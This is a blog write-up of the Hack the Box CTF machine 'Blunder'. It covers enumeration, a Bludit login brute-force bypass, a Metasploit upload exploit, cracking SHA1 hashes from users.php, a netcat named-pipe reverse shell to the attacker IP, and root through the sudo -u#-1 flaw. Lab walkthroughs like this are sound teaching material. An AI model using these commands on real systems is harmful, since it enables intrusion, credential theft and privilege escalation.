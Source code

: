 +++
author = "Nick"
categories = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
date = 2020-10-17T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/10/infocard.png"
slug = "hack-the-box-blunder"
tags = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
title = "Hack the Box - Blunder"

+++


Welcome back everyone! Today we are doing the machine Blunder from Hack the Box. This machine is listed as an Easy Linux machine. Let's jump in!

As always, we kick it off with our standard `nmap` command:
`nmap -sC -sV -oA allscan 10.10.10.191`

```
Nmap scan report for 10.10.10.191
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

As we see, it's a pretty basic scope. We'll add `blunder.htb` to our hosts file and take a look and see what is being hosted.

We are greeted with a pretty basic site. So as always, we'll start enumerating it with `gobuster`.

Command:
`gobuster dir -u http://blunder.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt`

Right away we see `/admin/`, `todo.txt` and `robots.txt`. First we'll take a look at the `todo.txt`. Nothing but some notes and a person to inform. Then we'll head over to `/admin` and see what might be there.

{{< figure src="__GHOST_URL__/content/images/2020/10/image.png" >}}

We get a login page. Some googling shows this is probably a [flat file CMS](https://www.bludit.com/). With this knowledge we can do some research for exploits and vulnerablilies. We find some basic Directory Traversals but they need to be authenticated. More research leads us to a [blog post](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb) about brute force detection bypass. Luckily for us, there is a link to the [github](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master) for the script as well.

So we'll clone the repo.

Command:
`git clone https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master`

Now we can change the permissions on the file.

Command:
`chmod +x bruteforce.py`

Now all we have to do is feed it  a `ip`, `username` and a `wordlist`. Now we have a name from our `todo.txt`, Fergus. We have an `ip` and a whole bunch of wordlists. We are good to go!

Command:
`python3 bruteforce.py 10.10.10.191 fergus /usr/share/wordlists/rockyou.txt`

We let it run but don't find anything. We run a few more wordlists and still no dice. Hmmm, well, we have a blog full of text, let's rip it all into a wordlist using `cewl`.

Command:
`cewl -d 1 -m 4 wordlist.lst --with-numbers http://10.10.10.191`

Now with our custom password list, we'll refeed it through our python app and see what we get.

{{< figure src="__GHOST_URL__/content/images/2020/10/blunder_wordlist.gif" >}}

We've got one! A password of `RolandDeschain`. Let's use these creds to log in. Now that we're in, we can look around and get an idea of what's possible. We know we can leverage some previously found Directory Traversals since we have credentials.

Command:
`Searchsploit bludit`

{{< figure src="__GHOST_URL__/content/images/2020/10/image-1.png" >}}

We'll start with the `Metasploit` module. First we'll start up `Metasploit` and find our exploit.

Command:
`msfdb run`

Once inside the `Metasploit` framework, we'll `search` for our exploit.

Command:
`search bludit`

{{< figure src="__GHOST_URL__/content/images/2020/10/image-2.png" >}}

Now we'll `use` that exploit.

Command:
`use 0`
or
`use exploit/linux/http/bludit_upload_images_exec`

Next, we set our `rhost`, `bludituser` and `bluditpass` values.

Command:
`msf5> set rhost 10.10.10.191`
`msf5> set bludituser fergus`
`msf5> set bluditpass RolandDeschain`

Then we'll `run` our exploit.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-3.png" >}}

We now have a `Meterpreter` session! Doing some internal enumation shows two version of bludit installed.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-4.png" >}}

Poking around more shows a `databases` folder which has a `users.php` file. We'll download that file.

Command:
`meterpreter> download users.php`

When we look at the file contents, we see a password file hash for Admin and Fergus.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-5.png" >}}

We'll also download the password from the `bludit-3.10.0a` directory as well. A quick peek on [TunnelsUp](https://www.tunnelsup.com/hash-analyzer/) shows us these are unsalted SHA1 hashes. [Crackstation](https://crackstation.net/) has one of these passwords on file.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-6.png" >}}

This is the password for the user Hugo. Who is also a user on this machine. So at this point, we'll need to create a shell back to our system, upgrade it and switch user to `Hugo`.

We'll enter a shell in `Meterpreter` by issueing the `shell` command. Next we'll start our `netcat` listener.

Command:
`nc -lvnp 6969`

Next we'll forward out our shell. In this box we don't have the `-e` option in `netcat`. We can use [this solution](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99). Also, you could upload a webshell via `meterpreter` as well.

Command:
`mknod /tmp/backpipe p /bin/sh 0</tmp/backpipe | nc 10.10.14.202 6969 1>/tmp/backpipe`

And we catch a shell.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-7.png" >}}

Now we can upgrade out shell.

Command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now we can `su` to hugo and get our `users.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2020/10/image-8.png" >}}

Now that we have a foothold as a user, we can enumerate. This box has been quite different than boxes in the past. Normally, we'd do basic enumeration by hand by poking around, running some basic commands and then use `linenum` or another enum script. This time, every tidbit we need has been in our initial commands.

We run `sudo -l` and see the `!root` flag.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-9.png" >}}

Between this and the version of `sudo` running, we can escalate to root. Here's a [quick snip](https://www.exploit-db.com/exploits/47502) on how the exploit works. All we have to do is execute the following command:

`sudo -u#-1 /bin/bash`

{{< figure src="__GHOST_URL__/content/images/2020/10/blunder_root.gif" >}}

There we have it, box complete. A pretty standard entry level CTF box. I would highly recommend this box to new users.

If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).





